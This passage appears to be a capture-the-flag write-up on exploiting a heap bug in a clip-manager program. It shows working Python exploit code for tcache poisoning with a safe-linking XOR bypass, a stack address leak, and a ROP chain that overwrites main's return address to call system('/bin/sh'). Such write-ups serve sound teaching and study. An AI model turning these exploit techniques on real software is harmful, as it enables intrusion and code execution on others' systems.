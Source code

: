 
### Get stack address
- To read or write what we want, we have to modify the tcachebin chunk's fd value.
- After add 9's clip which address is end with 0x000, we can add -7's clip. Then address of 9's clip is end with 0x0100.
- If we write contents appropritately, we can make fake chunk which address is end with 0x0100.
- Finally we can control free chunk's fd.
- We just have to be careful with the number of chunks in the tcache bin. Also, be careful to XOR the tcache_key with the fd value.
- The stack's address is written in <__libc_argv>.
<br />

```python
#get main's rbp addr
add_clip(9, 0x80, b'A')
add_clip(0, 0x80, b'A'*0x68 + b'\x11\x01')
add_clip(1, 0x80, b'A')
add_clip(2, 0x80, b'A')
add_clip(3, 0x100, b'A')
add_clip(-7, 0x10, b'A')
del_clip(3)
del_clip(9)
del_clip(0)
add_clip(0, 0x80, b'A'*0x68 + b'\x11\x01'+b'\x00'*6 + p64(((heap_base + 0x1000)>>12)^(libc_base+0x21ba10)))
add_clip(3, 0x100, b'A'*0x10)
add_clip(4, 0x100, b'A'*0x10)
view_clip(4)
r.recvuntil(b'A'*0x10)
rbp_addr = u64(r.recvn(6) + b'\x00'*2) - 0x118
print(hex(rbp_addr))
```
<br />

### Write to rbp for ROP
- If we use chunks whose addresses end with 0x00?0 or 0x01?0, we can allocate a chunk on the stack.
- Overwrite main's return_address, and do ROP.
- Be careful of stack's address alignment.
<br />

``` python
#overwrite rbp
del_clip(0)
add_clip(9, 0x80, b'A')
add_clip(-7, 0x10, b'A')
add_clip(5, 0x100, b'A')
del_clip(1)
add_clip(1, 0x80, b'A'*0x68 + b'\x11\x01')
del_clip(5)
del_clip(9)
del_clip(1)
add_clip(1, 0x80, b'A'*0x68 + b'\x11\x01'+b'\x00'*6 + p64(((heap_base + 0x1000)>>12)^(rbp_addr)))
add_clip(0, 0x100, b'/bin/sh\x00')
pop_rdi = libc_base + 0x2a3e5
binsh = heap_base + 0x1190
system = libc_base + 0x50d70
ret = libc_base + 0x29139
add_clip(5, 0x100, b'A'*0x8 + p64(pop_rdi) + p64(binsh) + p64(ret) + p64(system))
```
